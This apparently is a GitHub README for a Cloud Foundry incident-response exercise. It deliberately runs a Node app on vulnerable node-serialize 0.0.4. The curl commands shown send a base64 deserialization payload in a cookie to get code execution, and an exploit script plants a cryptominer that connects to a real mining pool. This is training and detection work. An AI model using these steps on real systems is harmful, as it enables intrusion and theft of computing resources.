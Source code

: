 ## A cryptojacking incident response excercise for Cloud Foundry

This was inspired by, and originally forked from, code in https://github.com/mfdii/miner-blog, by [Michael Ducy](https://twitter.com/mfdii). That code accompanies [this blog post](https://sysdig.com/blog/detecting-cryptojacking-with-sysdigs-falco/), on Detecting Cryptojacking with Sysdig's [Falco](https://github.com/draios/falco).

I munged it for use in an incident response exercise with Cloud Foundry. It uses an Immediately-Invoked Function Expression attack on a NodeJS application to run arbitrary code in a container. The vulnerable application is in `node-exploitable/`, and relies on [node-serialize 0.0.4](https://github.com/luin/serialize) which has a [known, unpatched, 2017 CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-16128/product_id-36008/version_id-208749/Node-serialize-Project-Node-serialize-0.0.4.html). As a result, I see this warning in GitHub:

> ⚠️ We found a potential security vulnerability in one of your dependencies. A dependency defined in node-exploitable/package-lock.json has known security vulnerabilities and should be updated.

Clearly I'm not updating it or the whole exercise won't work.

For this scenario, I injected a `miner/`, which uses a [Node stratum-client](https://github.com/arnabk/stratum-client) to connect to a mining pool over port 3333, then it simulated mining activity by running [bcrypt](https://github.com/dcodeIO/bcrypt.js) to burn CPU.

I also experimented with using [cpulimit](https://github.com/opsengine/cpulimit), so the linked executable for Ubuntu 14.04 is in `miner/cl`.

Lastly, I thought I'd make things even harder by having other Node apps that just happened to a lot of CPU for every web request in `node-decoy/`.

## Local demo

Window 1:

```bash
cd ./node-exploitable
npm install
npm start
...
```

Window 2:

```bash
payload=$(printf "ls -l /" | ./nodejspayload.py | base64)
curl -b "profile=$payload" -vs http://localhost:8000
```

Window 1 should then show the `ls -l /` results for the server

### Cloud Foundry demo

Push the expoitable client:

```bash
cd ./node-exploitable
cf push
cf logs hello-iife
```

Then run the exploit (which injects the code in `inject-code`):

```bash
./exploit-it.sh
```

Then `cf ssh hello-iife`. You should see the code in `/tmp/miner` and that `lsof -i` shows a connection to the mining pool.

```
node      160 vcap   10u  IPv4 22662477      0t0  TCP 1cefe2b8-25f0-418b-4e92-96da:53330->pool1.grlcgang.com:3333 (ESTABLISHED)
```

Meanwhile, `cf app hello-iife` should show one of the two instances burning a lot of CPU:

```
type:           web
instances:      2/2
memory usage:   64M
     state     since                  cpu     memory         disk
#0   running   2018-08-15T14:04:37Z   97.9%   54.6M of 64M   78.2M of 256M
#1   running   2018-08-15T14:04:37Z   0.0%    35.2M of 64M   72.5M of 256M
```